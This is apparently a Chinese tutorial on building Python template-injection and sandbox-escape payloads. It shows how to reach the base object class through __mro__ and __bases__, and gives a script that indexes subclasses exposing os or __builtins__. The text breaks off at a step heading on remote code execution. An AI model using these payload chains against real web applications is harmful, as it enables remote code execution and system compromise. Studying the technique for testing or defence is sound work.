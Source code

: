 ## 构造的原理

一言以蔽之：通过一个长长的调用继承链来将内建的函数或模块揪出来用

### step1 - 找到基类object

通过字符串、字典、列表、元组和很特殊的request来获取基类object，mro和bases[0]均可（或者是base 一样的效果，不一一列举）

![image-20211108104543559](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211108104543559.png)

```python
''.__class__.__mro__[2]	# py2
''.__class__.__mro__[1]	# py3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
```

### step2 - 获得“能用的”子类

```python
().__class__.__base__.__subclasses__()
```

会以列表形式返回object基类下的所有子类，我们需要的是其中含有`os`, `file`, `__builtins__`模块的子类；这里给出一个脚本，可以单独寻找特定子类，也可以根据想要的模块找到对应的子类，返回索引位置

```python
# py2 & py3
subclass = "warnings.WarningMessage"
module = '__builtins__'
raw = ().__class__.__base__.__subclasses__()

for index, value in enumerate(raw):
    if subclass in str(value):
        print('[*] %s - %s' % (str(value), index))
    try:
        if module in value.__init__.__globals__.keys():
            print(index, value)
    except:
        pass
```

![image-20211108115828170](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211108115828170.png)到这一步可以得到的

到这一步，我们的payload已经构造好一半了（以下index均指我们需要的subclass的索引位置）

```python
().__class__.__base__.__subclasses__()[index]
```

### step3 - 调用相关函数进行rce

#### py2 - file&os&linecache
